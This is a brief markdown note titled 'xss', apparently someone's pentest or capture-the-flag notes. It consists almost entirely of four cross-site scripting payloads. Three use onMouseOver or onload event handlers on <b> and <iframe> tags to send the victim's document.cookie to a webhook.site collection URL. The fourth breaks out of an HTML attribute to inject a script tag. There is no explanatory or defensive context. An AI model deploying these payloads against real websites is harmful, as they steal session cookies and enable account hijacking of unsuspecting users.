 # xss
https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44
- v1
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>

- v4 
"/> <script>alert(0)</script> <!--